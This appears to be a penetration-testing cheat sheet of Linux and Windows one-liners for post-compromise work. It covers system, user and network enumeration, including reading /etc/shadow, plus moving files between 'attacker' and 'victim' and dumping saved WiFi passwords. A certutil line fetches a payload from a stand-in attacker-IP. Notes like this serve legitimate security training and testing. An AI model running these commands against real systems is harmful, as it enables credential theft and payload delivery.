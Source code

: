 # Useful Commands

## Linux

- Bash
  - enumeration
    - system enumeration
      - `commands=( "hostname" "uname -a" "cat /proc/version" "cat /etc/issue" "lscpu" "ps aux" ) && for i in "${commands[@]}"; do printf "$i:\n" && $i && printf "\n"; done`
        - one liner for system enumeration
    - user enumeration
      - `commands=( "whoami" "id" "sudo -l" "cat /etc/passwd | cut -d : -f 1" "cat /etc/shadow" "cat /etc/group" "history" ) && for i in "${commands[@]}"; do printf "$i:\n" && $i && printf "\n"; done`
        - one liner for user enumeration
    - network enumeration
      - `commands=( "ifconfig" "ip a" "route" "ip route" "arp -a" "ip neigh" "netstat -ano") && for i in "${commands[@]}"; do printf "$i:\n" && $i && printf "\n"; done`
        - one liner for network enumeration
  - transfer files between attacker/victim and vice versa
    - `python -m http.server 80`
      - start HTTP server in current directory
    - `python -m pyftpdlib -p 21 --write`
      - start FTP server in current directory
    - `wget http://victim-IP/path/to/file`
      - download file from victim
  - dump WiFi network passwords
    - `sudo grep -r '^psk=' /etc/NetworkManager/system-connections/`
      - of all remembered WiFi networks
    - `nmcli dev wifi show-password`
      - of currently connected WiFi network
  - loop through array and execute command on elements inside
    - `for i in "${array[@]}"; do <command> "$i"; done`
- Python
  - virtual environments
    - `virtualenv --python=$(which python2) /path/to/newenv/folder/`
      - create for Python2
    - `source /path/to/venv/bin/activate`
      - activate

## Windows

- cmd
  - transfer files between attacker/victim and vice versa
    - `certutil -urlcache -f http://attacker-IP/path/to/payload payload`
      - download file to victim
    - `ftp attacker-IP`
      - connect to FTP server, to download/upload files
      - use anonymous login
  - dump WiFi network passwords
    - `netsh wlan show profiles name="$SSID" key=clear`
      - of all remembered WiFi networks
